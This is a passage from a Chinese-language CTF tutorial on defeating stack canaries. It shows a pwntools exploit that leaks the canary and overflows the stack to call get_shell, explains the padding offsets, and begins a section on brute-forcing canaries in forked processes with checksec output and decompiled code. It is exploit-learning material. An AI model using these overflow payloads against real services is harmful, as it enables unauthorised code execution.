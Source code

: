```
log.info("Canary:"+hex(canary))

#bypass canary
payload = 'a'*100+p32(canary)+'a'*8+'a'*4+p32(get_shell)
p.sendline(payload)
p.interactive()
```

首先解释为什么第一个payload需要输入100个a，跟gdb调试的时候不一致？

因为printf碰到换行符会将缓冲区的字符输出，然后刷新缓冲区；输入100个a的原因正是将sendline添加的换行符溢出到canary的低字节，这样在printf输出的时候将100个a放到缓冲区后不会输出，会继续读取canary，由于小端存储，故会将canary的值也添加到缓冲区，再碰到换行，输出缓冲区的内容，这也是为什么在接受到输出后会减去0xa得到真实的canary(这里溢出的0xa占用canary的低字节，不会影响里面的值，**因为canary低字节为00**)

为什么第二个payload中间需要填充12个a？

观察加入canary后栈中的分配即可得到答案，前8个a是填充canary到ebp的8字节距离，而后面的4个a是填充esp

### 爆破Canary

#### 原理

**每次进程重启的Canary不同，但是同一个进程中的不同线程的Canary是相同的，并且通过fork创建的子进程的Canary是相同的**

#### 条件

与泄露Canary的条件一致，唯一的区别在于不存在合适的输出缓冲区字符串的函数

#### 例题

查看保护:

```
dililearngent@dililearngent-virtual-machine:~/Desktop/CTF/pwn/stack/canary$ checksec bin1
[*] '/home/dililearngent/Desktop/CTF/pwn/stack/canary/bin1'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

分析程序：

查看main函数：

```
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  __pid_t v3; // [sp+Ch] [bp-Ch]@2

  init();
  while ( 1 )
  {
    v3 = fork();       //调用fork函数
    if ( v3 < 0 )
      break;
    if ( v3 )         //父进程
    {
      wait(0);
    }
    else              //子进程
    {
      puts("welcome");
      fun();          //栈溢出漏洞存在这里
      puts("recv sucess");
    }
  }
```